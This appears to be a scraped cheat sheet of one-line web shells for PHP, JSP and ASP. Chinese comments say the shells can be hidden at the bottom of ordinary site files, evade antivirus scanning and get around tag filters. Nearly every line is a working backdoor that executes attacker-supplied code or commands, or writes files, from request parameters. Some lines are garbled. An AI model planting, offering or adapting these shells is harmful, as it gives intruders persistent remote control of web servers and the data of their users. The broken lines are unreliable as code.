 ```php

<?php usort($_GET,'asse'.'rt');?> php环境>=<5.6才能用
<?php usort(...$_GET);?>  php环境>=5.6才能用
<?php eval($_POST1);?> 
<?php if(isset($_POST['c'])){eval($_POST['c']);}?> 
<?php system($_REQUEST1);?> 
<?php ($_=@$_GET1).@$_($_POST1)?> 
<?php eval_r($_POST1)?> 
<?php @eval_r($_POST1)?>//容错代码 
<?php assert($_POST1);?>//使用Lanker一句话客户端的专家模式执行相关的PHP语句 
<?$_POST['c']($_POST['cc']);?> 
<?$_POST['c']($_POST['cc'],$_POST['cc'])?> 
<?php @preg_replace("/[email]/e",$_POST['h'],"error");?>/*使用这个后,使用菜刀一句话客户端在配置连接的时候在"配置"一栏输入*/:<O>h=@eval_r($_POST1);</O> 
<?php echo `$_GET['r']` ?> 

<script language="php">@eval_r($_POST[sb])</script> //绕过<?限制的一句话

<?php (])?>   上面这句是防杀防扫的！网上很少人用！可以插在网页任何ASP文件的最底部不会出错，比如 index.asp里面也是可以的！

<?if(isset($_POST['1'])){eval($_POST['1']);}?><?php system ($_REQUEST[1]);?> 
加了判断的PHP一句话，与上面的ASP一句话相同道理，也是可以插在任何PHP文件 的最底部不会出错！

<%execute request(“class”)%><%'<% loop <%:%><%'<% loop <%:%><%execute request (“class”)%><%execute request(“class”)'<% loop <%:%> 
无防下载表，有防下载表可尝试插入以下语句突破的一句话 

<%eval(request(“1″)):response.end%> 备份专用


```



### JSP

```jsp
##JSP：
<%if(request.getParameter("f")!=null)(newjava.io.FileOutputStream (application.getRealPath("\\")+request.getParameter("f"))).write (request.getParameter("t").getBytes());%> 
提交客户端 
<form action="" method="post"><textareaname="t"></textarea><br/><input type="submit"value="提交"></form>


```



### ASP

```asp
##ASP
<%eval(Request.Item["r00ts"],”unsafe”);%>

<%IfRequest(“1″)<>”"ThenExecuteGlobal(Request(“1″))%> 

<%execute(request(“1″))%> 

<scriptrunat=server>execute request(“1″)</script> 不用'<,>‘的asp一句话 


```
